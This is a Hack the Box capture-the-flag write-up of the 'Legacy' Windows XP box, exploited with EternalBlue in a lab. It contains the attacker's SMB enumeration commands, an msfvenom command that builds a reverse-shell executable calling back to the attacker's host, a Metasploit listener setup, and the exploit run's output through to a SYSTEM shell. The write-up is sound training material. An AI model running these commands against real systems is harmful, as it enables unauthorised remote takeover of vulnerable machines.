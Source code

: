 # Eternal Blue

We already had an exploit we could use from when we did [[Writeups/Hack the Box/Boxes/Blue/10 - Eternal Blue|Blue]].

```bash
┌──(mac㉿kali)-[~/Documents/HTB/legacy]
└─$ cp ../blue/exploit.py .
```

The only thing we needed to potentially change was the username. I checked the `nmap` scan, and it showed no username was used to login.

I quickly tried connecting to port 445 to check this behaviour was correct. I wanted to list the shares so I knew which one to connect to, but all of the methods I tried gave a timeout error:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/legacy]
└─$ smbclient -L \\10.10.10.4
protocol negotiation failed: NT_STATUS_IO_TIMEOUT
──(mac㉿kali)-[~/Documents/HTB/legacy]
└─$ smbclient -L 10.10.10.4 \\\\legacy\\shares
protocol negotiation failed: NT_STATUS_IO_TIMEOUT
```

So I just tried connecting with `smbmap`:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/legacy]
└─$ smbmap -H 10.10.10.4 -u "" -p ""
[+] IP: 10.10.10.4:445	Name: 10.10.10.4                                        
┌──(mac㉿kali)-[~/Documents/HTB/legacy]
└─$ smbmap -H 10.10.10.4 -u null -p ""
[!] Authentication error on 10.10.10.4
```

It looks like giving a literal blank username is what we want. So I edited `exploit.py`:

![[Pasted image 20210502103619.png]]

I also had to copy across `mysmb.py`:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/legacy]
└─$ cp ../blue/mysmb.py .
```

Then I needed a payload. I did a search for windows payloads to see if there were any specific Windows XP ones:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/legacy]
└─$ msfvenom -l payload | grep windows
```

It looked like there weren't, so I went with the same as for *Blue*/the most generic one:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/legacy]
└─$ msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.6 lport=9001 -f exe -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: shell.exe
```

I then edited the script to upload the new payload:

![[Pasted image 20210502104328.png]]

I then started a listener:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/legacy]
└─$ msfconsole -q
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/shell_reverse_tcp
payload => windows/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost tun0
lhost => tun0
msf6 exploit(multi/handler) > set lport 9001
lport => 9001
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.6:9001 
```

I wanted to see if the exploit worked without selecting a named pipe in advance, as it seemed to have a method to find one. So I ran it just specifying the IP:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/legacy]
└─$ python2 exploit.py 10.10.10.4
Target OS: Windows 5.1
Using named pipe: spoolss
Groom packets
attempt controlling next transaction on x86
success controlling one transaction
modify parameter count to 0xffffffff to be able to write backward
leak next transaction
CONNECTION: 0x8209e3c8
SESSION: 0xe10af840
FLINK: 0x7bd48
InData: 0x7ae28
MID: 0xa
TRANS1: 0x78b50
TRANS2: 0x7ac90
modify transaction struct for arbitrary read/write
make this SMB session to be SYSTEM
current TOKEN addr: 0xe11ffcf8
userAndGroupCount: 0x3
userAndGroupsAddr: 0xe11ffd98
overwriting token UserAndGroups
Opening SVCManager on 10.10.10.4.....
Creating service WtPn.....
Starting service WtPn.....
The NETBIOS connection with the remote host timed out.
Removing service WtPn.....
ServiceExec Error on: 10.10.10.4
nca_s_proto_error
Done
```

And I got a shell almost instantly:

![[Pasted image 20210502104816.png]]

It seems `whoami` wasn't a command on Windows XP. I tried:

```bash
C:\WINDOWS\system32>echo %USERNAME%
echo %USERNAME%
%USERNAME%
```

But got nothing. So I just went digging for the flags instead.

![[Pasted image 20210502105024.png]]

![[Pasted image 20210502105053.png]]

That's the box!

![[Pasted image 20210502105629.png]]

# Tags

#writeup #cve #windows #oscp-prep 